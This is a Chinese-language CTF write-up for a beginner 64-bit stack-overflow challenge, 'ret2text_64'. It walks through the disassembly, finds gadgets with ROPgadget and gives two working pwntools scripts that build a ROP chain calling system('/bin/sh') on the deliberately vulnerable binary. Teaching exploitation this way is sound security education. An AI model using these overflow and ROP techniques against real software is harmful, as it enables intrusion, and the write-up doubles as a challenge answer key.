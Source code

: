 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Baby
- 分类：Pwn
- 暴露端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

这是`ret2text_32`的升级版，64位程序与32位不同，函数在传参的时候是通过寄存器来传参

64位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file ret2text_64
ret2text_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d76b1f973484a43907334ef6a59bce3bd057b539, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=ret2text_64
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里只打开了 NX 保护

#### 分析漏洞成因

反汇编`vuln`函数：

```c
┌ 112: sym.vuln ();
│           ; var size_t nbyte @ rbp-0x4
│           ; var void *buf @ rbp-0x40
│           0x0040125c      f30f1efa       endbr64
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4883ec40       sub rsp, 0x40
│           0x00401268      488d05711100.  lea rax, str.But_this_time..you_need_to_find_the_point_to_get_it_ ; 0x4023e0 ; "But this time..you need to find the point to get it!"
│           0x0040126f      4889c7         mov rdi, rax                ; const char *s
│           0x00401272      e809feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401277      488d05971100.  lea rax, str.Whats_your_age_ ; 0x402415 ; "What's your age?"
│           0x0040127e      4889c7         mov rdi, rax                ; const char *s
│           0x00401281      e8fafdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401286      488d45fc       lea rax, [nbyte]
│           0x0040128a      4889c6         mov rsi, rax
│           0x0040128d      488d05921100.  lea rax, [0x00402426]       ; "%d"
│           0x00401294      4889c7         mov rdi, rax                ; const char *format
│           0x00401297      b800000000     mov eax, 0
│           0x0040129c      e81ffeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004012a1      488d05811100.  lea rax, str.Now..try_to_overflow_ ; 0x402429 ; "Now..try to overflow!"
│           0x004012a8      4889c7         mov rdi, rax                ; const char *s
│           0x004012ab      e8d0fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012b0      8b55fc         mov edx, dword [nbyte]      ; size_t nbyte
│           0x004012b3      488d45c0       lea rax, [buf]
│           0x004012b7      4889c6         mov rsi, rax                ; void *buf
│           0x004012ba      bf00000000     mov edi, 0                  ; int fildes
│           0x004012bf      b800000000     mov eax, 0
│           0x004012c4      e8d7fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004012c9      90             nop
│           0x004012ca      c9             leave
└           0x004012cb      c3             ret
```

本题的漏洞点在`read`函数处，从标准输入，读入大小为 nbyte 的数据存入 buf 数组，buf 的大小 0x40，nbyte 的大小由第一次`scanf`函数接收的为准，所以这题的输入大小由我们决定，可以输入超出 buf 的长度，覆盖 `rbp`的值，造成栈溢出

反编译`b4ckdoor`函数

```c
void sym.b4ckdoor(void)

{
    sym.imp.system("echo hi!");
    return;
}
```

`system`调用`echo`输出 hi ，可惜没有调用`/bin/sh`，这里给大家介绍个工具

ROPgadget，利用这个工具我们可精确的查找到程序中的一些字符串，例如查找`/bin/sh`

- 命令格式：ROPgadget --binary FILE --string "/bin/sh"

```shell
>>> ROPgadget --binary ret2text_64 --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

上面讲述过64位程序传参需要通过寄存器，刚刚的工具也可以用来寻找寄存器

- 命令格式：ROPgadget --binary FILE --only 'pop|ret'

```shell
>>> ROPgadget --binary ret2text_64 --only 'pop|ret'
Gadgets information
============================================================
0x000000000040119d : pop rbp ; ret
0x000000000040123d : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

本题我们只需要用到`rdi`

分析到这，本题的大概思路就有了，首先溢出，因为没有后门函数，所以需要我们手动在栈上构造 ROP 链调用`system`执行`/bin/sh`从而拿到 shell。

#### 编写利用程序

这里我们提供两种写法供同学们研究，第一种是比较正规的做法，第二种是懒人做法

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```
